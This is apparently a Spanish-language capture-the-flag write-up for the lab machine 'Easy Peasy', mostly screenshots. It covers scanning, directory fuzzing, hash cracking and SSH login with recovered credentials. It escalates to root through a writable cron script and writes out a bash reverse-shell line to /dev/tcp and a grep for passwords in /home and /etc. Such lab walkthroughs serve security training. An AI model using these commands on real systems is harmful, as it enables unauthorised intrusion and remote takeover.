# Easy Peasy

Esta `room` también nos dice lo que tenemos que hacer en cada momento.

# Análisis

Empecemos con un escaneo de puertos sencillo y sigamos con uno *complejo* para ver más información de los servicios instalados:

> Hacer siempre un escaneo de todos los puertos, nunca se sabe.

<br>

Como este escaneo no nos resuelve todas las dudas, vamos a hacer uno para esos puertos pero con un poco más de información:


<br>

Vamos a comentarlo un poco por encima:

- Puerto 80 (nginx 1.16.1)
- Puerto 6498 (OpenSSH 7.6p1)
- Puerto 65524 (Apache httpd 2.4.43)
- SO (Linux 4.15)

Ahora que sabemos los servicios http que existen en la máquina, vamos a analizarlos uno a uno.



Parece que vamos a tener que fuzzear los directorios:

- nginx



1. hidden
    
    

    <br>

    No parece que la imágen tenga algo escondido.

    <br>

    
    
    
    > Primera flag

    <br>

2. robots.txt
    
    > **F**

    <br>

- apache



<br>

1. index.html
    
    
    
    <br>

    
    Tercera flag

    <br>

2. robots.txt
    
    
    Segunda flag

    <br>

3. /n0th1ng3ls3m4tt3r/
    
    Se trata del hash de una contraseña y una imágen(raro)

    <br>

    
    > Es un hash en sha256

    <br>

    
    > La crackemos con john the reaper

    <br>

    
    
    
    > user: boring
    > pass: iconvertedmypasswordtobinary

    <br>

Acabamos el *análisis* y empezamos el ataque, tenemos el usuario y la contraseña del ssh:


Entramos en la máquina como el usuario boring(sin privilegios)
<br>


> Nos dice que está rotado(ROT)

<br>



<br>

Ahora toca escalar privilegios.


> No podemos ejecutar sudo

<br>


> Un programa que nos permite ejecutar comandos por otros usuarios...

<br>


> Pide la contraseña del root, no funciona

<br>

```bash
grep -r "password" /home /etc 2>/dev/null
```
> Podría... pero no

<br>



En crontab, programa que ejecuta scripts, programas, etc. cada x tiempo; vemos que hay un archivo que se ejecuta cada minuto por el usuario root.
<br>



Y un usuario normal puede editar este archivo.
<br>


> bash -i >& /dev/tcp/{ip_local}/4242 0>&1


<br>



<br>



Ponemos un puerto en escucha en nuestr máquina y esperamos un minuto(aprox)
<br>



Y ya estaría, hemos accedido a la máquina con root.

## USER? Si

## ROOT? Si
